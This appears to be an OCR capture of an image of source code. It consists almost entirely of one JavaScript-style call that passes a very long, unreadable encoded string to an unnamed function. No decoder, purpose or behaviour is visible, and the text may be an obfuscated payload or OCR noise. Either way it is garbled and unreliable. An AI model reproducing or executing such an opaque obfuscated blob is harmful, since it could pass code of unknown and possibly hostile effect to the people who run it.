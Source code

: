 o=h(e,"EbpVe/0&yv:Zt6<XvV66e:Zyp&vX+p&56<e:&:be&X<t0Tt0Vb:eQvy/!&yb<p/ Z<p:0&<</bt<<t&tHvy:Xy/<t/ebtV/pv<Mt&:<0pV:<b<yVX0b0:te&:pt<ee6A066eV&:ZbXyt<6b:60e/0eLpyVZ6ev6vV::Xp!y&Zvy/#<0Jt<Vt:yYe0p<0V6Z6pZyZQy0Z6eby&Z<v0JtZVv:VbpypXe0ptZV0:yb&ye<XZVpZy<Xt0:60.pvVsb06<&/e&e2::/oKvVby0<6te:Z0<b&t<//&Z6<0&&be&XXb/XtvV<vZb0Vpte/VtppX:0bv&vuv&6<e/ptipt0y<60ytbV::XVb::5t&:<y/eye26ytXtb0Z&V/Zpb&ytX<&XX0/:tyV0:p6X/Xtvey:&b:0p<X0<Xb&bttV::ybe/pZtp6yp60&&{0&p6VebZ<6y&v_V0/6VeVZ<ebZ/bty:Xy0evZpZvv20p0tt0v<0eeZpp}ytZ&/pZZp6vVZt/6<b/Vtvp<vbbp&Z<t0X<&e:Zyp0vptV0Vt/<0y}T&&b</0bZXeXt/p:vy 0&pZ V6:6b/Vet:0/t#/Vt6p<vt_:&0:eV&:Xx6y&Xy/yypbt:&b:y/HXy&<:/yt0VpyyXv/vt:e&Z0ppy&X:0b<X0&t:Vy:0bpeetZ/p:Z6e&pXv0VtXVXtXee::byy0XpVV&&Xv:u3v&e6/0/<eek:<btyyZ/eXZ<V/e:6t0X<&e/ZXVYv4Z:/e6X/pZ6e&Zyppv{X<t</VZtbZp/:&r10<6tey&/Qb&Z<b/tZv<0yybby&<V/<&:htvZ=:&&<<0btb/bt6ptv:jy&e:<VZ::ty&XXybp6ee!v6P<ybXe/Z<v&:teVp:G_teytvVV:tbZVt6t/v6Vee:Vb&yV:tpp:<eZZpb/yvX60:tZXyZepVepXV0V6yeXZeb&v0ZZy&{<0p62V<::6/&D6veZZb6:0ZX<0/6X/}Z&pZvymZp0t&eZZ6VVvyXZ&t<//06v/bZeppvmXtp6:V<p&0<&/XtpVb:e_ZZvVtvefp&J6tp:v6b/&V<6/<Z<X0v6)Zebt<0&tepty<p^/ZZ:0b6y/Vtvp<vt8:&0v^e0&e<pVyt<0vte/&ttVp:>S<&:Zeee:/pby/Xy/6<6&ttyV0:eb!e066ee:/p:e560&bttXy0<X:v&X<0b6/evZ0b&ee;+0Xy<pt:6<&&VgV0e6ve:Zb<V:XVey:Xy006p(VvtXv&v<&_pvVVV:Oh<&b<eeZ&pbVv&2v&X<ee&tyVb:pp/:04F0<6tey&tb/&yXb/<tZVZ/eX/&y<V/:ZZV0vXAZ&V<<0b<V/ZZ<ptv:*0ee:ZV/:Xb/&X:eV:6/V+tVV:v<wt&:<0b/Z0bty0X&0:::VZ:<V/ZVbn&<<t/yyVb<y&Xv/Xyypp:/p/ve:<eX6<VvZeby:vpXyeXp0_ttX&vpXZ066VXtv6pey&w&0:6vetZV6:&ZXX&b<&et:XV7vv}:y69y0y60eeZY<t066&/oZX<+yoX6&&<ye&ZZp&Z&V>vp{k0<6:rv:eb/&p<//<Z6<0&tb&&p5/&Z<he<Ztpy0bXp/&tZVyyeUX&0Fvyt<e/pt8pt/v<t/&t/eb:bt:/<<&/&60VXZip/V:6t0Xt&eb:Xbt:Vb/&<<t/:Vtv&+0&<</<X0et:Vy:0bpee6<etZ0XZy&?ey/zZ04t<Vt:y</0t6&ev:X6y&voO0V<ve&Z:pbey</&p6<evZtpbe:<:/0ZZ0v<&eeZppcyttvettbpVvvbV0Z<<eZ&ebevb-b&/<yeX66/xZyp0ve&/<e/+Z/pyyXv&p:&p<oe<Z:Xby&<t0pt/V::eQZVeX//V6+V/::btyv:e/ytXeB/tX:/ZZ/eb6bVp:&by&X:y/&tyV0:/bpV6bbvb<t/:tyVe0bXZ0y6teyZVb<y/:<0n6vXyvvb&veXv0<<j0b6yVt::byye:X/DZpb6vyZee:</e_6VeZ:<bty:X0p&Z6pZv&X:0&vep:t/p!ZVV:y<Xt0:60S6v6GZ&ytZeZZ&pbyVbp&<<V/0Z6V&&:%v&p<1eXt05&:yb0yp-/y0<(e<Ztpy0e</0b6fpZ:6by&/X80e&<p,ZV%Zy/XV0wy3%FtVVXv<ct&:<0bX:0XvvVtX/ZttV<:/bVVt6p06ty/Z6&V0:ebp&<:6ee:vpey&S&bt:ZeZZvb/v&Xt&pXVyPt<Vt::b0/y6Ve:Zvp0e06t&&6pX<&e7}v6ne0&6ZeXZtb6e:?0&/vee/Z/p::bF00v<y_66veXZeppv Xtptt0p&v/Z</e<Xe:66/eZyp0ve1LVyZvV/vXwZVKt00bZteXtyp:vy+0&p:&VV:0)6Vet<//t/p6v6pbv6b/&y<0/etD<tye<&/yt&XDy-T6y0Xe&6XV/yt0Ve:H<V066:eV0pXyvV<<ybX&/tt:Vy:e6p0b6yVX00Xtv&Xpy/;b0?t<Vt:y6V0<6&ev:X6y&tX/&g6&/V:6ptytb6vZXy006eeo&tXv0X<&e&&nbXet<j&e<//etppbe<t<vbf00t6:eyZe<Z06</e6::p/vep&:{Kp&A6<e:&ybb&66X/utVpZ/0<ty&<p&/XV/DZ<ptvy6p//6p<ty6bbyVXv/<tbep:ZbtVyZXp6<v&/teVp:usteyt6ey:bb:yX::p!:tevZMbVy&XZ0ytvX0ZppbeK6</Xvvp/Z/b0yZXt0Vv/0b6&Vt::byyeZ:eZZ06y&bX6&,6&0/6tec:<btyyte/vZ{pZ:bZye<<vee6&00Zpp y<X:V&tpp/vV>1p:t5/ZZ0<p/y<eyb<yeZZXVV:aBbp<<:/v&yb0v&6b/6<6e<tVVevZt6vvby&e<p/?ZtXVyVX0/X6apXZVwZyp<vbp:6pXZ/bp&6XV&ZXp/0teVpv<60/Z6te&ZVt<0eXX/:<60VtyV0:ebieO6ee/Zeppyb:<p<Xb&yttV::ybeeZt6V<0yXvy6u0&vy<bXZpbvv0zy0&<pX<&<6:&ZXv&06Z/2tpeVZ:b<ytX:00vbVy:bnt06v0b/y{XpZ/pZvgX<0t6yb/v/bpy*<V/0Z6V&ZvVOverp&T6tb::Vbe&bv<V/t6b/vZpZ:yN0&e<pe<&:byyV<6//tt<t&tb&ye<v0/ysb&vpVb:yzt&:<y/ev/bby6Xt/y6Ve&:<bp:Vpp&<<t/:t0XV&XX<b:Z:V&:&b&e=<b0/6&ee:&pyvb#py/XZ0,t<Vt:y</eVZ<Xt&6<y/0ttyvhp0e6pe3:t<v&e6&e/Zp6t&tq6&eveb06&0/Zpp5y<X:VZZZptv:CZybvyp<tvpe/Ot0/p<X/0Zvp6:bK<0Xvt/yt&<0v&G&&tXV/yZZV:/XpZ:v40&e<pe<yZ_ZyyX0/vttVV:6ty0v<v//6eV&:ZbyvXbt&:<y/0tpobyyXb0ttveeZV-Xyy::Vvt:eb:Zb<:/bXyM<</ttyO/ybXv&b6tVv00,&v0Xb0t6^0b6:Vt::byyeZ0e/:<b6&0c00&66e&tbp&:XpZy:Xy006prXv<bb&p6v p:VpVvyXX0Z<:/Vtee&tdppvrX<0:v&Vbv<#t&b66/t&0=t:&Tpv/Ct&T6<etZyX/yl<V/bZ<<y&<bv&eT&y/<p/dZ<p:/<X&/:6VeS:6b6V0t60Bt0V&::bVyt<Z&ZXe/0teVpv<6Z0ZtZe&ZppVVtXb/66:eVtv/b:ebpyk<tbZZtb&yVQV&MtZe:00U&y/fp0&6te<0yX6v6XXp2Z:eb:ZbXvZXvyvX<0e6pe9:t6:0/vppyZ6pZy<bX:eX:0y60epy=Cv&b<pevt0<+&pWb&z66/et&p&/oXb&/<&/6tpp/:05Xv/1v&(6<etZy<//<v<Ve:XA:Z6VvvyI0&e<>b::6be&&<:b>:ZVZ:ybZy:<v0e6V//6bVov<_tt//tv&Vvv/bvy/X0Vet6b/:pbZ&t60<60etyV0:ebSett6V:0e(tea60&btt/X6yV::yb0ypZ:evZ6pvy6Xv0vy<peZXb::6V<yyX00e6oC6vyXZ0v60Qkv0VbytZy/<ved:v0VVv:X6&b<//pZV<9vtdZp:tyevyVQXvX4;&/<0e6&XeZ6tp0veYp0<Z <0yvb2&vXe/bttVZv&bBVp:yVe6bVyvZ!XyVXg/b&<V::vty00<&pb:6V6v<bVye<Zb6<v/XteVp:sztV&tyV0ytOX&<<X0e<6&_tyV0:ebHe:6:VZZ&p/eA6Xbt6<e&00pyyVnp0/6be<0yX&y6XXy&AS0p6JV<::600<6X/00t,cv:MZ06<0/V6/e&ZUb<ytXyVZvybV0<pbv0Xt0:6yeevVbe0X6Z/Ztyp&Z&p6vpn+0<6:b&:bb/&<vtVpt6pyZZV<v0}e&p6<uv:ybbVp6&08tbV6:tbp&v:peVt&Vv:Xbe&&Xy0b6p//t<Vxv<Mt&yZpep:VbvyVX60VZVeD:tp&:Vby&<<t/:t0X<yVceb:ZBeZ:0VvZybeypXq/tv0bvv0Z>/b6/e&Z6ppy/w00X<8XtyVXby:bZv0X00e6pV<&XXZ0/66K(v:pbvbXv0v<6Dpype/Z:p(y<Xt0y:eV/yXZt&p<6ey6Z/bZ0pevpX<VZZvV0vZbiypvtbZ6X/:Z:pyv0CpV:tVV0:*O/Vptt/VtVpX:0q:y&8vyX<e/pt?pt/&Xp/Zt6VV/tXLyb<6/t60V/ZdbXV:6Z/X6be&:t!XvHXv0:<</:tyV0:ebp0?/6vttZep:0beyp<<pyZypVytX/0b<wX:v<V6ZZbyy0Xe0>v:p:v/X<0&6V/p0tN6vyXZ0&<0/ptVpvZbppytX:0yVv:tbVvpyXJ00:6ye0Zp<p&V6:eZt0<p&ybV0<Gbyb6te:Zype/:<b/bZ6Vevyb/VB69/bvebX:y-6y0Xe/Vt:/b60ptv:Gy&eZpVZZbQ6yy:eV0t/Ve:bbyyZ<ZbeZ/Vv:Zpby0<v0:6Veet&V<:pbJ&<<:b0Z&bbytXVb:ZNeZ:0Vv:<beypX;/tyypVyeZ=e0<bVttX//::byy0Xppbtpb6yvGv&06b/A0tOXv0XX&:6&/ptbb6v0Zye&6yeXZvptZVVty<Xt0:60bev0dbp:tZ/:t0Vbv<9/&b<6/t&0)0vVbeyp<yeXZXVy:Vb&&<<p/X<b/ZZtp:vy>epXt:VV:/uZVe6//yZXVi:vbXv6b6&y<0/et4X60/X/0y6bep:bp/&6Xe/ZyebX:bp&ye<X0/<60etyV0:ebGep<be0:vpee-60&btt/X<CV::yb0ypZXeXZybZv0Zpet6VV6Zbp6yZZe//6Xeb:XbXv:b6vVXy006ee(0tW&&e6XKpvyVVy<p5yXX6ye6ye0Zep.eXX3eZZ&V&:eXX&<v:V/tZV0v0S/yLvtV&6bVv:yo&ypX&jtyteXtXp:vyH0&p:eVvyIb/Vet:0/t-<t0pXt&ZXbbp:ZVVZ/6VvXp:&:<y/0tpXy/<6Zb0:te&:pt<ee6M066eV&:ZbXyt<6b:60e/0eb/y/X:&b60VvZy66:vpVyeXp0^ttXvvVl+006&eVv9p&vpXy0&<p0/6:eo:<btyyZ&/yZVbXvXLt0ZXZ&:60eeZpb<et<ye/ZvpXvtZteZ6t/tZvVf:ebV&<6X/Z66/VZyp0veI8eeZ6Vpvytp/yXVe<<b/eZtp:vy3eVet/V6vZ
